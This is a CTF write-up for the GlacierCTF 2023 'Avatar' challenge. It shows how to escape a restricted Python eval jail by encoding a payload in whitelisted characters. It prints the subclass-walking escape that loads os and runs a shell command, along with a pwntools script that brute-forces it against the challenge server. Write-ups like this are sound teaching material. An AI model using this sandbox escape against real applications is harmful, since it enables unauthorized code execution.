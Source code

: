 ```yaml
---
title: "[GlacierCTF 2023 - misc] Avatar"
description: "Writeup by jsthope"
published: 2023-11-27
tags: [GlacierCTF 2023, misc]
type: post
category: Misc
image: ./Glacier_CTF_Logo.png
showTableOfContents: true
---
```


# Introduction

This challenge was during the **GlacierCTF 2023**.

The goal of this challenge is to escape from this prison to retrieve the flag.


```py title="chall.py"
print("You get one chance to awaken from the ice prison.")
code = input("input: ").strip()


whitelist = """gctf{"*+*(=>:/)*+*"}""" # not the flag
if any([x not in whitelist for x in code]) or len(code) > 40000:
    
    print("Denied!")
    exit(0)

eval(eval(code, {'globals': {}, '__builtins__': {}}, {}), {'globals': {}, '__builtins__': {}}, {})
```

# First condition

We will first focus on the first condition:

```py
whitelist = """gctf{"*+*(=>:/)*+*"}"""
```

## Numbers

The aim here is to find a trick to be able to write all numbers and later the characters.

We quickly find a way to obtain numbers with:

```py
digits = {
    0: '+("g"=="c")',
    1: '+("g"=="g")'}

for i in range(2, 150):
    digits[i] = digits[i-1] + digits[1] # True + True = 2...
```

This code will later be optimized to:

```py
digits = {
    0: '+("">"")',
    1: '+(""=="")',
    }
```

Thus, thanks to f-strings (since `f` is allowed) we can obtain all numbers.

## Letters

We then find a way to obtain letters using an f-string feature:

```py
f"""{digits[97]:c}""" # returns the corresponding unicode here
```

We then write these two functions to be able to build our obfuscated payload:

```py
def letter(letter_wanted):
    return '{'+digits[ord(letter_wanted)]+':c}'


def get_string(string_wanted):
    ret_str = ''
    for let in string_wanted:
        ret_str += letter(let)
    return 'f"""' + ret_str + '"""'
```

# Second condition

We can then build our payload.
However, we quickly run into a problem: the second condition.

Here is the payload we want to use:

```py
().__class__.__base__.__subclasses__()[107]().load_module('os').system('cat flag.txt')
```

The problem is that this obfuscated payload has **67887** characters...
And the second condition therefore does not accept it...

```py
len(code) > 40000
```

## Optimization

Our method for writing numbers writes `6` as `1+1+1+1+1+1`.
However, it is much more compact to write it as `(1+1+1)*(1+1)` (especially for large numbers).

Thus, we implement a check if the number is a multiple of `2` or `3` in order to save length (it’s not the most optimal, but it gets us well below 40,000).

```py
for i in range(2, 150):
    if i % 2 == 0:
        digits[i] = digits[i/2] + '*((""=="")+(""==""))'
    elif i % 3 == 0:
        digits[i] = digits[i/3] + '*((""=="")+(""=="")+(""==""))'
    else:
        digits[i] = "(" + digits[i-1] + digits[1] + ")"
```

These optimizations reduce our payload to **13227** characters!

We then faced a big problem: no response from the server...

# Payload

It’s time to look at the payload now.
The payload was chosen based on the following restriction:

```py
eval(eval(code, {'globals': {}, '__builtins__': {}}, {}), {'globals': {}, '__builtins__': {}}, {})
```

We see here that there are neither `__builtins__` nor `globals`.
So the code evaluated with `eval` will not have access to Python’s built-in functions (`print`, `__import__`, etc ...) ([cf python.org](https://docs.python.org/3/library/functions.html))

This is not a problem in itself because ways to bypass these restrictions exist ([cf hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#no-builtins))

The payload is as follows:

```py
().__class__.__base__.__subclasses__()[107]().load_module('os').system('cat flag.txt')
```

It tries to invoke `<class '_frozen_importlib.BuiltinImporter'>` using `().__class__.__base__.__subclasses__()[107]` in order to use the builtins again.

The problem is that in most cases `<class '_frozen_importlib.BuiltinImporter'>` is at index **107**.
However, the index may depend on the Python version.

All that remained was to brute-force the index and hope for a positive response.

```py
for i in range(90,120):
    string_wanted = f"""().__class__.__base__.__subclasses__()[{i}]().load_module('os').system('cat flag.txt')"""
    obf = get_string(string_wanted)

    print(len(obf))
    #context.log_level = 'debug'

    p = remote("chall.glacierctf.com",13384)
    p.recv()
    p.sendline(obf)
    try: 
        print(p.recv())
        break
    except EOFError:
        pass
    p.close()

p.success(f"Correct Payload was: {string_wanted}")
```

![Avatar flag image](./flag.png)
